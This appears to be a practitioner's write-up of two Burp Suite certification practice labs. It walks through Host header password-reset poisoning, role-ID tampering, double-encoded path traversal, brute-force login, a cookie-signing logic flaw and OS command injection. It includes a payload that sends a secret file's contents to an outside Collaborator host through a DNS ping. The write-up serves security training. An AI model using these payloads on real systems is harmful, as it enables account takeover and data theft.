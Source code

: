# 🧾 **WRITE-UP: BSCP – 2025-06-20**

## 🔬 **Lab 1**

### 🧩 Stage 1 – HTTP Host Header Attack

* **Objective:** Gain access to Carlos’s account.

* **Steps:**

  * Discovered a hidden `X-Host` header. Its value is reflected in a `<script>` tag:
    ![alt text](1.1.1.png)
  * Since there was no direct way to deliver this to the victim, I combined it with another vulnerability in the *forgot password* function. I set the `X-Host` header to my Burp Collaborator server and submitted a password reset request for the user `carlos`:
    ![alt text](1.1.2.png)
  * Checked the Collaborator server and successfully received a request containing Carlos’s reset token:
    ![alt text](1.1.3.png)
  * Used the token to reset Carlos’s password and gained access to his account.

* **Key Takeaway:** Initially, I focused too heavily on finding a delivery vector for the `X-Host` header (e.g., via smuggling, cache poisoning, cache deception, or XSS), which led me down a rabbit hole. My advice is to consider the broader context instead of hyper-focusing on a single point.

---

### 💥 Stage 2 – Access Control

* **Objective:** Escalate privileges to admin.

* **Steps:**

  * Noticed that the *update email* function returned a suspicious parameter: `roleid`.
    ![alt text](1.2.1.png)
  * Tried modifying this value via the same endpoint, and it worked. I then brute-forced different values until I found the admin's role ID was `114`:
    ![alt text](1.2.2.png)

* **Key Burp Tool Used:** Intruder (for brute-forcing role IDs)

---

### 🏁 Stage 3 – Path Traversal

* **Objective:** Extract the flag located at `/home/carlos/secret`.

* **Steps:**

  * Observed that the application used relative paths to retrieve images, which indicated a possible file path traversal vulnerability:
    ![alt text](1.3.1.png)
  * Attempted traversal but was blocked by the front-end:
    ![alt text](1.3.2.png)
  * Bypassed this by using **double URL encoding** with the path `../../../../../../../../../../home/carlos/secret`:
    ![alt text](1.3.3.png)

* **Lesson:** Don’t overlook encoding tricks—double encoding often bypasses client-side or proxy-level filters.

---

## 🔍 **Lab 2**

### 🧩 Stage 1 – Authentication

* **Objective:** Gain access to a privileged account.

* **Steps:**

  * Performed a simple brute-force using the provided [username wordlist](Authentication\usernames.txt) and [password wordlist](Authentication\passwords.txt), and successfully discovered a valid account:
    ![alt text](2.1.1.png)

---

### 💥 Stage 2 – Business Logic Flaw

* **Objective:** Escalate privileges to admin.

* **Steps:**

  * Observed that the new session cookie set by the server contained:

    * The username
    * An `isLoggedin` flag
    * A signature (likely a MAC to protect the token's integrity)
      ![alt text](2.2.1.png)
  * The goal was to obtain a session token for the user `administrator` with a valid signature.
  * Noticed the *forgot password* endpoint sets the `username` from the request body, reuses the `isLoggedin` value, and recalculates the signature.
  * Exploited this by sending a request to the forgot password function with the username set to `administrator`:
    ![alt text](2.2.2.png)
  * Used the resulting session cookie to access the admin account.

---

### 🏁 Stage 3 – OS Command Injection

* **Objective:** Read the secret file via RCE.

* **Steps:**

  * Upon accessing the admin account, discovered a new *add user* function.
  * Injected an OS command in the email field, triggering an out-of-band (OAST) interaction using this payload:

    ```
    email>user1@example.com `ping \`cat /home/carlos/secret\`.00y4ih6u9yxg3x95h4c8qlu6mxsogf44.oastify.com`</email>
    ```

    ![alt text](2.3.1.png)
  * Checked the Burp Collaborator server and successfully retrieved the flag:
    ![alt text](2.3.2.png)

--- 